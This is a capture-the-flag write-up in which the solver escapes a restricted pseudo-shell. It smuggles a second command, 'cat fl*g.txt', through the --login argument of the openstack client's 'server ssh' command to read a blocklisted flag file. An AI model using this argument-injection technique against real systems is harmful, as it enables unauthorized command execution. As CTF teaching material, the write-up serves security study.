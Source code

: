 # pwn | OpenSource as a Service

You are given a pseudo-shell with a restricted set of commands: {ls, cat, openstack}

After doing a `ls` you see:

```bash
$ ls
flag.txt
```

But sadly when trying to launch a `cat` you get:

```bash
$ cat flag.txt
Command failed, I don't like this word
```

And it doesn't seem to be the flag..

After some testing you understand that `flag.txt` is blacklisted and try:

```bash
$ cat fla*.txt
Maybe it's not the real cat.. Maybe you should look somewhere else, idk ¯\_(ツ)_/¯
```

Sadly it seems to be a troll :/

Now you have one last command: `openstack`, obviously you need to exploit it somehow.

After a small grep on their [github repository](https://github.com/openstack/python-openstackclient) you find [this beautiful line](https://github.com/openstack/python-openstackclient/blob/master/openstackclient/compute/v2/server.py#L2093) and decide to exploit it.

First you need to setup an openstack somewhere on your personal server to get access to an existing one. You could also just mock all the openstack requests (setup a fake openstack server).

Once it's done you can do the following:

```bash
$ openstack server list # Choose a server ID with a public address (Ext-Net)
$ openstack server ssh --login "tes & cat fl*g.txt # " --address-type "Ext-Net" --port 22 <SERVER-ID>
```

Note that you will also need to pass some additional parameters for authentication (not listed above for clarity):

```bash
--os-region-name=REGION --os-tenant-name=1711678101234567 --os-tenant-id=a5486cdb71a745b6b4a6864497b5c123 --os-auth-url=https://openstack-auth-url/v2.0/ --os-username=openstack-username --os-password=openstack-password 
```

Please see *exploit/full_exploit.py* for the full automated exploit.
